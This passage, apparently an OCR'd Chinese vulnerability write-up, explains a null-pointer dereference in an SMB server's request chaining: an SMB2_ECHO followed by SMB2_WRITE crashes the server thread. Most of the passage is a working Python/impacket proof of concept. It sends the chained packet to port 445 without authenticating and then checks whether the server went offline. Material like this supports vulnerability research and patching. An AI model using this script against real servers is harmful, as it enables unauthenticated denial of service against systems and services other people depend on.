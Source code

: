 ```
}

```

smb2_check_user_session - 检查

显然，当第一条命令是 SMB2_ECHO_HE，第二条命令是 SMB2_WRITE，则 smb2_write() 中的 work->sess 变量将为 NULL。这将导致像 work->sess->x 这样的引用，导致空指针引用。由于空指针引用会危及内核线程，因此 SMB 服务器将宕机，而内核的其他部分仍保持在线。针对此漏洞的验证方法如下：

```
#!/usr/bin/env python3

from impacket import smb3, nmb
from pwn import p64, p32, p16, p8



def main():
    print("[*] connecting to SMB server (no login)...")

    try:
        conn = smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445, timeout=3)
    except nmb.NetBIOSTimeout:
        print("[!] SMB server is already offline (connection timeout)")
        return

    # generate innocent SMB_ECHO request
    request_echo = smb3.SMB3Packet()
    request_echo['Command'] = smb3.SMB2_ECHO
    request_echo["Data"] = p16(4) + p16(0)
    request_echo["NextCommand"] = 64+4  # set NextCommand to indicate request chaining

    # generate innocent SMB_WRITE request
    request_write = smb3.SMB3Packet()
    request_write['Command'] = smb3.SMB2_WRITE
    request_write["Data"] = p16(49) + p16(0) + p32(0) + p64(0) + p64(0) + p64(0) + p32(0) + p32(0) + p16(0) + p16(0) + p32(0) + p8(0)
    request_write["TreeID"] = 0

    # chain SMB_WRITE to SMB_ECHO
    request_echo["Data"] += request_write.getData()

    print('[*] sending DoS packet...')
    conn.sendSMB(request_echo)

    print("[*] probing server health...")

    try:
        smb3.SMB3("127.0.0.1", "127.0.0.1", sess_port=445, timeout=3)
        print("[!] exploit failed - server remains online")
    except nmb.NetBIOSTimeout:
        print("[+] exploit succeeded - server is now offline")



if __name__ == "__main__":
    main()

```
